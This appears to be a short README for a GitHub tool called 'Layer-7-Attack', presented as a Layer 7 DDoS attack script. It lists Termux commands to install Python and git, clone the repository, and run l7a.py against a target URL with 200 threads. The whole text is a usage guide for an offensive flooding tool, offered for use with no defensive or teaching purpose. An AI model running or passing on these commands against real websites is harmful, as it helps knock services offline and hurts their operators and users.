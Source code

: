 # Layer-7-Attack
Layer 7 Attack For DDOS

~$ pkg install python 
~$ pkg install git 
~$ git clone https://github.com/MusH4ck007/Layer-7-Attack L7a
~$ cd L7a
~$ python2 l7a.py -s http://target.com -t 200
